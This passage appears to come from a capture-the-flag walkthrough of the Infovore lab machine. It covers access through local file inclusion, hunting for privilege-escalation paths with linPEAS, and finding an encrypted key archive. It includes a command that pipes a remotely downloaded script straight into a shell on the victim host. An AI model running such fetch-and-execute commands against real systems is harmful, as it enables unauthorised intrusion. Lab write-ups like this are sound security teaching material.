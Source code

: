 
**Step 16: Accessing the Victim Machine via LFI**

We now have access to the victim machine using **LFI (Local File Inclusion)**. This allows us to explore the system further and potentially escalate privileges or perform additional actions.

Next, we will continue to investigate the machine's environment and gather more information for further exploitation.

![](/assets/post/infovore1/lfi.png)
**Step 17: Using a GitHub Repository for OSCP Reconnaissance**

We will use a GitHub repository that can be used in the OSCP, which only applies reconnaissance within the system.

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
**Step 18: Finding the `.oldkeys.tgz` File**

The repository helps us find the `.oldkeys.tgz` file on the system.


```bash 
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

**Step 19: Finding an Encrypted Key**

We found an encrypted key on the system.
![](/assets/post/infovore1/o.png)
